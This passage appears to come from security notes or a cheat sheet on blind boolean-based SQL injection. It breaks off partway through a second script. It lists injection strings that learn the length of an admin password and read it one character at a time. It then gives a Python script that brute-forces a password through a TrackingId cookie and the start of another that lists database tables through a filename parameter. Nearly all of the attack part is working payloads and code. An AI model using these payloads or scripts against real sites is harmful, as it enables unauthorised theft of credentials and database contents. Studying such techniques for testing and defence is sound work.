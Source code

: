 But first we need to know the lenght of the data to retrieve.

```
xyz' AND LENGTH((SELECT password FROM users WHERE username='admin')) > 5 -- -
xyz' AND LENGTH((SELECT password FROM users WHERE username='admin')) = 15 -- -
```

```
xyz' AND SUBSTRING((SELECT password FROM USERS WHERE username='admin'), 1, 1) >'m
xyz' AND SUBSTRING((SELECT password FROM USERS WHERE username='admin'), 1, 1) ='s
xyz' AND SUBSTRING((SELECT password FROM USERS WHERE username='admin'), 2, 1) ='a
```

The following is a python example script to automate the data retrieval of a alphanumerical 20 characters length password.

```python
import requests

results = ""
letters = '1234567890zxcvbnmasdfghjklqwertyuiopZXCVBNMASDFGHJKLQWERTYUIOP'
headers = {
		"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36", 
		"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8", 
		"Sec-Fetch-Site": "same-origin", 
		"Sec-Fetch-Dest": "document", 
		"Accept-Encoding": "gzip, deflate", "Connection": "close"
	}

for i in range(20):
	print("[!] Character %s" % str(i+1) )
	for l in letters:
		payload = "' AND SUBSTRING((SELECT username FROM users WHERE username='administrator'), %s,1) = '%s" % (str(i+1), l)
		cookies = {
			"TrackingId": "Xv2KlSXeuXAWb9NQ" + payload, 
			"session": "iuxOBNDd4wHkhbbOiUVlQBHTv9AchuTu"
		}
		r = requests.get("https://example.com/sqli", headers=headers, cookies=cookies)
		if "Welcome back!" in r.text:
			print("  [+] Character Found: %s" % l)
			results += l
			break;

print("[!] Finished")
print("[+] Final results:")
print(results)
```

Another example of retrieving databases names:

```python
import requests

session = requests.Session()
letters = 'rotasdfghjklzxcvbnmqweyuip_@ZXCVBNMASDFGHJKLQWERTYUIOP=+\'", 0123456789.-$%&*!'


# GET LENGTH OF PAYLOAD:
# Payload: (SELECT table_name from information_schema.tables LIMIT 1 OFFSET 1)
def get_length(payload):
	for i in range(1,100):
		#print("	[!] Length: %s" % i)
		paramsGet = {"contextid":"189112","filename":"17042023164857_test.pdf' AND LENGTH(%s)=%s-- -" % (payload,i)}
```